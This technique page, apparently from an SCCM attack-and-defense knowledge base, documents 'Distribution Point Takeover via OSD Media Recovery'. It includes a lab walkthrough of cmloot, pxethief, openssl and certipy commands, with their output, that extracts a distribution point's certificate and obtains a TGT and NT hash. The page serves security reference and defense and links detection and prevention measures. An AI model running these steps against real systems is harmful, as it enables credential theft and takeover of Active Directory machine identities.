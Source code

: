 ```yaml
---
title: 'ELEVATE-5'
description: 'Distribution Point Takeover via OSD Media Recovery'
source: 'subat0mik/Misconfiguration-Manager'
---
```


## MITRE ATT&CK Tactics
- [TA0008](https://attack.mitre.org/tactics/TA0008) - Lateral Movement
- [TA0004](https://attack.mitre.org/tactics/TA0004) - Privilege Escalation

## Requirements
- PKI client authentication certificates are used for communication with the target distribution point
- The distrubution is PXE-enabled or still hosts the OSD media boot images for PXE

One of the following:
- Connectivity to SMB on the distribution point OR
- Connectivty to HTTP(s) on the distribution point

And one of the following:
- Valid Active Directory domain credentials 
- Anonymous authentication enabled on the distribution point

## Summary
SCCM sites may optionally be configured to support public-key infrastructure (PKI) certificates for secure communications. For deployments with internet-based site systems, PKI certificates are required. When deployed, the distribution point (DP) role requires its PKI certificate to support client authentication and for the private key to be exportable. The certificate is used by the DP to support communication with HTTPS enabled management points. During OSD task sequence media, the certificate is imported where required to support HTTPS communications to management points during operating system deployment. For environments that leverage Microsoft's PKI solution Active Directory Certificate Services (AD CS), the certificate generated for the DP role may be used to authenticate as the DP's host AD machine account. An attacker who is able to successfully recover the PKI certificate from the OSD task sequence variables file contents may gain control of the certificate's AD identity.

## Impact 

 The impact of recovery is environment dependent. At a minimuim, based on Microsoft's [documentation](https://learn.microsoft.com/en-us/intune/configmgr/core/plan-design/network/pki-certificate-requirements#site-systems-that-have-a-distribution-point-installed) an attacker that recovers this certificate can impersonate a DP's AD identity and compromise the host system. 

## Defensive IDs
- [DETECT-7: Monitor read access to the SMSTemp directory](../../../defense-techniques/DETECT/DETECT-7/detect-7_description)
- [PREVENT-6: Configure a strong PXE boot password](../../../defense-techniques/PREVENT/PREVENT-6/prevent-6_description)

## Examples

1. On the attacker server, using cmloot.py triage the content library for common OSD media formats like .WIM or .ISO

```
┌──(cmloot)─(root㉿sccm-kali)-[~/cmloot]
└─# python3 cmloot.py ludus.domain/domainuser:password@10.6.10.12 -cmlootinventory sccmfiles.txt
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies

[+] Access to SCCMContentLib on 10.6.10.12
[+] sccmfiles.txt created

┌──(cmloot)─(root㉿sccm-kali)-[~/cmloot]
└─# python3 cmloot.py ludus.domain/domainuser:password@10.6.10.12 -cmlootdownload sccmfiles.txt -extensions WIM ISO
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies

[+] sccmfiles.txt exists. Remove it if you want to recreate the inventory.
[+] Extensions to download ['WIM', 'ISO']
[+] Creating CMLootOut
[+] Downloaded D55D-boot.12300002.wim
[+] Downloaded 3203-win11.wim
[+] Downloaded 8A5E-prestaged.wim
```
2. Using an archiving tool such as 7zip, parse the recovered media files for and extract the Variables.dat task sequence variables file.

```
┌──(cmloot)─(root㉿sccm-kali)-[~/cmloot/CMLootOut]
└─# 7z l 8A5E-prestaged.wim|grep -i Variables.dat
2025-06-19 16:23:53 ....A        24248        24248  SMS/data/Variables.dat

```
3. Use pxethief.py to extract the PKI certificate from the recovered variables file

```
┌──(PXEThief)─(root㉿sccm-kali)-[~/cmloot/CMLootOut/SMS/data]
└─# python3 /home/kali/PXEThief/pxethief.py 3 Variables.dat

 ________  ___    ___ _______  _________  ___  ___  ___  _______   ________
|\   __  \|\  \  /  /|\  ___ \|\___   ___\\  \|\  \|\  \|\  ___ \ |\  _____\
\ \  \|\  \ \  \/  / | \   __/\|___ \  \_\ \  \\\  \ \  \ \   __/|\ \  \__/
 \ \   ____\ \    / / \ \  \_|/__  \ \  \ \ \   __  \ \  \ \  \_|/_\ \   __\
  \ \  \___|/     \/   \ \  \_|\ \  \ \  \ \ \  \ \  \ \  \ \  \_|\ \ \  \_|
   \ \__\  /  /\   \    \ \_______\  \ \__\ \ \__\ \__\ \__\ \_______\ \__\
    \|__| /__/ /\ __\    \|_______|   \|__|  \|__|\|__|\|__|\|_______|\|__|
          |__|/ \|__|

[+] Attempting to decrypt media variables file and retrieve policies and passwords from MECM Server...
[+] User did not supply password. Making use of default MECM media variables password (only works for non-password protected media)
[+] Media variables file to decrypt: Variables.dat
[+] Password provided: {BAC6E688-DE21-4ABE-B7FB-C9F54E6DB664}
[+] Successfully decrypted media variables file with the provided password!
[!] Writing media variables to variables.xml
[!] Writing _SMSTSMediaPFX to 123_8AE6B618-77EC-46CB-B1B5-88F693E_SMSTSMediaPFX.pfx. Certificate password is 8AE6B618-77EC-46CB-B1B5-88F693E
[+] Identifying Management Point URL from media variables (Subsequent requests may fail if DNS does not resolve!)
[+] Management Point URL set to: https://sccm-mgmt.ludus.domain
```

3. Inspect the certificate with openssl to confirm it's an AD CS certificate and contains the client authentication EKU

```
┌──(PXEThief)─(root㉿sccm-kali)-[~/cmloot/CMLootOut/SMS/data]
└─# openssl \
-in 123_8AE6B618-77EC-46CB-B1B5-88F693E_SMSTSMediaPFX.pfx \
-passin pass:8AE6B618-77EC-46CB-B1B5-88F693E \
-nokeys -clcerts | openssl x509 -text -certopt no_pubkey,no_sigdump -noout
Certificate:
    Data:
        Version: 3 (0x2)
        Serial Number:
            13:00:00:00:1b:3f:6d:ff:d3:07:16:36:2c:00:00:00:00:00:1b
        Signature Algorithm: sha256WithRSAEncryption
        Issuer: DC=domain, DC=ludus, CN=ludus-CA
        Validity
            Not Before: Jun  2 19:35:17 2025 GMT
            Not After : Jun  2 19:35:17 2026 GMT
        Subject:
        X509v3 extensions:
            Microsoft certificate template:
                0/.'+.....7.....k...............6.=...t...y..d...
            X509v3 Extended Key Usage:
                TLS Web Client Authentication
            X509v3 Key Usage: critical
                Digital Signature, Key Encipherment
            Microsoft Application Policies Extension:
                0.0
..+.......
            X509v3 Subject Key Identifier:
                62:55:1A:83:88:8E:1B:03:0C:76:2E:84:87:5F:B2:D0:27:92:2B:DB
            X509v3 Authority Key Identifier:
                74:86:80:EB:30:51:04:4D:D8:32:A0:33:7D:BB:77:24:18:C5:50:65
            X509v3 CRL Distribution Points:
                Full Name:
                  URI:ldap:///CN=ludus-CA,CN=DC01,CN=CDP,CN=Public%20Key%20Services,CN=Services,CN=Configuration,DC=ludus,DC=domain?certificateRevocationList?base?objectClass=cRLDistributionPoint

            Authority Information Access:
                CA Issuers - URI:ldap:///CN=ludus-CA,CN=AIA,CN=Public%20Key%20Services,CN=Services,CN=Configuration,DC=ludus,DC=domain?cACertificate?base?objectClass=certificationAuthority
            X509v3 Subject Alternative Name: critical
                DNS:sccm-distro.ludus.domain

```


4. Use certipy to authenticate on behalf of the recovered certificate's identity.

```
┌──(PXEThief)─(root㉿sccm-kali)-[~/cmloot/CMLootOut/SMS/data]
└─# certipy auth -pfx 123_8AE6B618-77EC-46CB-B1B5-88F693E_SMSTSMediaPFX.pfx -password 8AE6B618-77EC-46CB-B1B5-88F693E -dc-ip 10.6.10.10
Certipy v5.0.3 - by Oliver Lyak (ly4k)

[*] Certificate identities:
[*]     SAN DNS Host Name: 'sccm-distro.ludus.domain'
[*] Using principal: 'sccm-distro$@ludus.domain'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'sccm-distro.ccache'
[*] Wrote credential cache to 'sccm-distro.ccache'
[*] Trying to retrieve NT hash for 'sccm-distro$'
[*] Got hash for 'sccm-distro$@ludus.domain': aad3b435b51404eeaad3b435b51404ee:b8388cab9a861556b6132ae7e4de71c5

```


## References
- Christopher Panayi, [pxethief](https://github.com/MWR-CyberSec/PXEThief)
- Christopher Panayi, [Identifying and retrieving credentials from SCCM/MECM Task Sequences](https://www.mwrcybersec.com/research_items/identifying-and-retrieving-credentials-from-sccm-mecm-task-sequences)
- CRED-1, [Retrieve secrets from PXE boot media](../../CRED/CRED-1/cred-1_description)
- ELEVATE-4, [Distribution Point Takeover via PXE Boot Spoofing](../ELEVATE-4/ELEVATE-4_description)
- Microsoft, [PKI certificate requirements for Configuration Manager](https://learn.microsoft.com/en-us/intune/configmgr/core/plan-design/network/pki-certificate-requirements#task-sequence-media-for-deploying-operating-systems)


